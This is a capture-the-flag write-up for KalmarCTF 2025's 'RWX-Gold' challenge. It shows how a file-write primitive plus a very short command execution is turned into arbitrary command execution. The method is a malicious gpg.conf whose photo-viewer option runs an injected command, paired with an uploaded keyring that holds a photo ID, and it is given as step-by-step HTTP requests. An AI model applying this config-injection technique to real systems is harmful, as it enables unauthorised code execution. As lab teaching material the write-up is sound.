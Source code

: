 ```yaml
---
title: RWX-Gold
date: 2025-03-10T03:03:41+03:00
description: Writeup for RWX-Gold [KalmarCTF 2025]
type: writeup
author: h3pha
tags:
- misc
draft: false
---
```

___

## Challenge Description

We give you file read, file write and code execution. But can you get the flag? Let's reduce that.

## Intuition

Since the challenge lets us execute a command with 3 characters we cannot directly execute `/would`, so we need to find something that can execute commands for as. This is `gpg`.

## Solution

#### Step 1 - create the `.gnupg` directory

First we need to execute `gpg` to create the directory `~/.gnupg`:
```
GET /exec?cmd=gpg HTTP/2
```

Then we can find this in `gpg` man page:
```
gpg.conf  
	This  is the standard configuration file read by gpg on startup. It may contain any valid long option; the leading two dashes may not be entered and the option may not be abbreviated. This default name may be changed on the command line (see: [gpg-option --options]).  You should backup this file.
```

So we can write configurations in `gpg.conf`. Further searching the man page for useful options you will stumble upon these:
```
--photo-viewer string
This is the command line that should be run to view a photo ID. "%i" will be expanded to a filename containing the photo. "%I" does the same, except the file  will  not be deleted once the viewer exits.  Other flags are "%k" for the key ID, "%K" for the long key ID, "%f" for the key fingerprint, "%t" for the extension of the image type (e.g.  "jpg"), "%T" for the MIME type of the image (e.g. "image/jpeg"), "%v" for the single-character calculated validity of the image being viewed (e.g. "f"), "%V" for the calculated validity as a string (e.g.  "full"), "%U" for a base32 encoded hash of the user ID, and "%%" for an actual percent sign. If neither %i or %I are present, then the photo will be supplied to the viewer on standard input.

On Unix the default viewer is xloadimage -fork -quiet -title 'KeyID 0x%k' STDIN with a fallback to display -title 'KeyID 0x%k' %i and finally to xdg-open %i. On  Windows !ShellExecute 400 %i is used; here the command is a meta command to use that API call followed by a wait time in milliseconds which is used to give the viewer time to read the temporary image file before gpg deletes it again.  Note that if your image viewer program is not secure, then executing it from gpg does not make it secure.

--list-options parameters  
This  is  a  space  or  comma  delimited  string that gives options used when listing keys and signatures (that is, --list-keys, --check-signatures, --list-public-keys, --list-secret-keys, and the --edit-key functions).  Options can be prepended with a no- (after the two dashes) to give the opposite meaning.  The options are:  
  
show-photos  
Causes --list-keys, --check-signatures, --list-public-keys, and --list-secret-keys to display any photo IDs attached to the  key. Defaults to no. See also --photo-viewer. Does not work with --with-colons: see --attribute-fd for the appropriate way to get photo data for scripts and other frontends.

--list-keys  
-k  
--list-public-keys  
List the specified keys. If no keys are specified, then all keys from the configured public keyrings are listed.
```

So a `gpg.conf` that can execute our commands would look like this:
```
list-options show-photos
photo-viewer /would you be so kind to provide me with a flag > ~/a.txt
list-keys
```

#### Step 2 - write `gpg.conf` file
Request:
```
POST /write?filename=/home/user/.gnupg/gpg.conf HTTP/2

list-options show-photos
photo-viewer /would you be so kind to provide me with a flag > ~/a.txt
list-keys
```

Now executing `gpg` won't execute our command because there are no `keyrings` on the remote machine that have images to display. We need to write a key that has an image to display in `~/.gnupg/pubring.kbx`.

#### Step 3 - create the `pubring.kbx` file

On your machine you can follow the commands (for the `jpg` image I used [this](https://github.com/mathiasbynens/small/blob/master/jpeg.jpg)):
```sh
gpg --gen-key
# input a name, email and password (eg. John Doe, john@gmail.com, 1234)
gpg --edit-key john@gmail.com
> addphoto /paht/to/jpg # careful if you use my jpg image, it is a pixel small, look carefully when it is displayed
> save
```

You file should be saved at `~/.gnupg/pubring.kbx`.

Request:
```
POST /write?filename=/home/user/.gnupg/pubring.kbx HTTP/2

<Your pubring.kbx file content here. (you can use a python script for this request)>
```

#### Step 4 - get the flag

Execute `gpg`:
```
GET /exec?cmd=gpg HTTP/2
```

Read the flag:
```
GET /read?filename=/home/user/a.txt HTTP/2
```

### Flag

`kalmar{so_many_rabbit_holes_to_get_stuck_in_but_luckily_you_found_a_way_to_view_that_picture_678cac2678d0}`

## References
[gpg manpage](https://www.gnupg.org/documentation/manuals/gnupg24/gpg.1.html)